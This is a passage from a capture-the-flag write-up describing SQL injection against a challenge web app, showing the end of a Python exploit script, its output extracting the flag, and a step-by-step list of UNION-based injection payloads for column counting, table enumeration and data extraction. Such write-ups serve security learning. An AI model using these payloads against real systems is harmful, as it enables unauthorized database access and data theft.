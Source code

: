 ```python
            return False
        
        tables = self.enumerate_tables()
        if "system_configs" not in str(tables):
            print("[-] system_configs table not found")
            return False
        
        flag = self.extract_flag()
        if flag:
            print(f"[+] Exploitation successful!")
            return True
        
        print("[-] Failed to extract flag")
        return False

if __name__ == "__main__":
    target = "http://challs.0x4m4.com:8002"
    exploit = RegimeMonitorExploit(target)
    exploit.exploit()
```

## Running the Exploit

When I executed the complete exploitation:

```bash
python3 exploit.py
[*] Starting exploitation of http://challs.0x4m4.com:8002
[*] Testing for SQL injection vulnerability...
[+] SQL injection vulnerability confirmed!
[*] Determining number of columns...
[+] Found 5 columns in the query
[*] Enumerating database tables...
[+] Found tables: ['dissidents', 'system_configs']
[*] Extracting flag from system_configs table...
[+] Flag found: sscit{SQL_1nj3ct10n_r3v34ls_h1dd3n_syst3m_s3cr3ts}
[+] Exploitation successful!
```

## Alternative Exploitation Methods

### Method 1: Manual UNION Attack

Step-by-step manual exploitation:

```sql
-- 1. Test for vulnerability
'

-- 2. Confirm with boolean condition
x' OR '1'='1

-- 3. Determine column count
' UNION SELECT NULL, NULL, NULL, NULL, NULL--

-- 4. Enumerate tables
' UNION SELECT 1, name, sql, 'LOW', type FROM sqlite_master WHERE type='table'--

-- 5. Extract flag
' UNION SELECT id, config_name, config_value, 'LOW', is_secret FROM system_configs--
```
